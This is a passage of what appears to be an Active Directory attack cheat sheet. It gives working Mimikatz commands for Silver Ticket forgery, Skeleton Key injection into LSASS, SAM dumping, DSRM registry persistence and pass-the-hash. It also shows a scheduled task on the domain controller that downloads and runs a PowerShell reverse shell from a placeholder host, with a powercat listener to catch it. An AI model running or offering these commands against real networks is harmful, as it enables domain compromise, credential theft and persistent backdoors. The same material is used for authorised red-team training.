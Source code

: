 * Exploitation  - Creating a Silver Ticket that gives us access to the DC HOST service.
```
Invoke-Mimikatz -Command '"kerberos::golden /domain:<domain> /sid:<domainsid> /target:<dc>.<domain> /service:HOST /rc4:<machine_account_hash> /user:Administrator /ptt"'
```

* Creating and executing task  
```
schtasks /create /S <dc>.<domain> /SC Weekly /RU "NT Authority\SYSTEM" /TN "UserX" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://ip/Invoke-PowerShellTcp.ps1''')'"
```
```
schtasks /Run /S <dc>.<domain> /TN "UserX"
```
```
powercat -l -p 443 -v -t 1024
```

* Creating a Silver Ticket that gives us access to the DC HOST service.  
```
Invoke-Mimikatz -Command '"kerberos::golden /domain:<domain> /sid:<domain_sid> /target:<dc>.<domain> /service:HOST /rc4:<machine_account_hash> /user:Administrator /ptt"'
```

* Creating a Silver Ticket that gives us access to the DC RPCSS service.  
```
Invoke-Mimikatz -Command '"kerberos::golden /domain:<domain>/sid:<domain_sid> /target:<dc>.<domain> /service:RPCSS /rc4:<machine_account_hash> /user:Administrator /ptt"'
```

### Skeleton Key
This malware infiltrates the LSASS (Local Security Authority Subsystem Service) process and creates a master password that can be used to authenticate to any Active Directory account within the compromised domain. The dangerous aspect of this attack is that users' existing passwords continue to function normally, meaning that the authentication process is not interrupted. This makes Skeleton Key attacks difficult to detect unless you know exactly what to look for.
```
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"'
Enter-PSSession -ComputerName <hostname> -Credential <domain>\<user>
```

* When mimikatz is used to carry out this attack, the default master password defined is "mimikatz".

### DSRM Persistence - Change the account login behavior by modifying the registry on the DC
Each domain controller has a local administrator account for the DC called a Directory Services Restore Mode (DSRM) account.  
By default the DSRM administrator is not allowed to log on to the network DC. We will change the account login behavior by modifying the registry on the DC.  
```
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"'
```
```
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```
```
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:<domain> /user:Administrator /ntlm:<admin_nthash> /run:powershell.exe"'
```
